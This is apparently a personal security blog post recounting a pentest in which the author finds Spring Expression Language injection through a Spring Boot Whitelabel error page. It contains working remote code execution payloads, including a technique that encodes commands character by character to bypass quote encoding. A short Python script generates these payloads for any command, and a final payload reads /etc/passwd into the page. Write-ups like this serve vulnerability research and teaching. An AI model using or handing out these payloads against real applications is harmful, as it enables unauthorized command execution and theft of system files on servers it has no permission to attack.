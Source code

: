 ```yaml
---
title:  "Spring Boot RCE"
date:   2017-02-02 23:11:23
categories: [security]
tags: [security]
---
```



This is my very frist blog post which was pending for a long time (almost a year). I would like to share a particular Remote Code Execution (RCE) in Java Springboot framework. I was highly inspired to look into this vulnerability after I read this article by **David Vieira-Kurz**, which can be found at his [blog](http://secalert.net/#cve-2016-4977). His article talks about an RCE in the Spring Security OAuth framework and how the Whitelabel error page can be used to trigger code execution.

So this ment that any Whitelabel Error Page which reflected user input was vulnerable to it. This was because user input was being treated in as Springs Expression Language (***SpEL***). So during my pentest I had came accross a particualr URL which triggered this Whitelabel Error page.

**URL:** `https://<domain>/BankDetailForm?id=abc${12*12}abc`

**Error Page:**
![alt text](../../images/initial_error.png "Initial Error")


My input of `abc${12*12}abc` was reflected as `abc144abc`. Then I wanted to perform a simple **id** and get the result on screen. I proceeded with the following payload:

**URI:** `/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec('id')}`

**Payload:** `${T(java.lang.Runtime).getRuntime().exec('id')}`

**Error Page:**
![alt text](../../images/error_2.png "Payload Error")

Hmm.....I see nothing. The reflection gave back the input as it is. I double checked David's blog to see if I was doing anything wrong. I was unsure as to what went wrong. Was the payload incorrect or did I make a mistake with the braces?? Nope. Everything was correct but I was still not getting my desired output. After fiddling around for a few hours I decided to fireup a demo Springs app and try to recreate the same scenario. I tried with a basic `{5*5}` and got `25` printed beautifully onscreen. Then I tried doing an **id** and bam!!!, it did not execute. I knew that I had to dig deeper because this was eating me up. 

It got me thinking that quotes might have been encoded and might have broken the **exec()** command. Next thing was to look at the stack trace at the server and see what was wrong.

![alt text](../../images/debug_mode.png "Debugging")

So after debugging I could see that single & double quotes were URL encoded. The **exec()** method clearly takes an argument as a string. Now I either need to find characters within the error code and take bits & pieces and pass it to exec using **substring()**, which is still pretty difficult or I need to find a way to pass my string without using double quotes or single qutoes. I wanted to go with the second approach. Java supports nested functions and if im able to find a method which can output `id` or `cat etc/passwd`, this would then be passed to **exec()** and then my payload would run successfully.

After going through some Java classes I stumbled upon the following:

``` ruby
java.lang.Character.toString(105) 
-> prints the characer 'i'
``` 

Now I need to concat the letter 'd' and I'm golden. Again concat() is a method and i'm going to nest the `character.toString` inside it as well.

``` ruby
java.lang.Character.toString(105).concat(T(java.lang.Character).toString(100))
-> prints the characters 'id'
``` 
Now crafting the final payload, I get the following:

~~~ ruby          
https://<domain>/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec(T(java.
lang.Character).toString(105).concat(T(java.lang.Character).toString(100)))}
~~~
![alt text](../../images/rce_blind.png "id executes")

The **getRuntime()** method returns the runtime object which we got on screen. Now we have some sort of a Blind RCE with which we can run any commands. I wanted to go a step further and get the output on screen (just for fun). At this point I wanted to do a `cat etc/passwd` and print the result onto the Whitelabel Error page. This ment for every character I would need to write its ASCII equivalent in the format `concat(T(java.lang.Character).toString(<ascii value>))`. Wrote a quick sloppy python script to acheive this:

**Python Script:**

``` ruby
#!/usr/bin/env python
from __future__ import print_function
import sys

message = raw_input('Enter message to encode:')

print('Decoded string (in ASCII):\n')
for ch in message:
   print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""), 
print('\n')

```


Now to get the output of `cat etc/passwd` in the response, we will use the ***IOUtils*** class and call the **toString()** method. We can pass an input stream to this method and get the contents of the stream as a response.

~~~ ruby  
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).get
Runtime().exec(T(java.lang.Character).toString(99).concat(T(ja
va.lang.Character).toString(97)).concat(T(java.lang.Character).toStri
ng(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.la
ng.Character).toString(47)).concat(T(java.lang.Character).toString(10
1)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.C
haracter).toString(99)).concat(T(java.lang.Character).toString(47)).c
oncat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).
toString(97)).concat(T(java.lang.Character).toString(115)).concat
(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toStrin
g(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
~~~

The payload became quite huge. To sum up, I used the Apache IOUtils library. I converted `cat etc/passwd` into ASCII characters using the character class, passed this value to the **exec()** method and got the input stream and passed it to the `toString()` method of IOUtils class. Awesome isnt it. I tried this on the remote box and got the following.

![alt text](../../images/rce_new.jpg "etc/passwd")

All this hassle just to get around the single and double quotes. However I feel there might have been easier ways to go about it. Tackling out the hurdles and troubleshooting and debugging and finally getting what you want is such a serene feeling. This bug was a learning curve for me and I learned a lot of things alongside exploiting this.

I hope you guys enjoyed this blog. Please feel free to let me know your thoughts or any doubts you have. You can also catch me up on [Twitter][twitter] or shoot me an email.


[twitter]:      https://twitter.com/0xdeadpool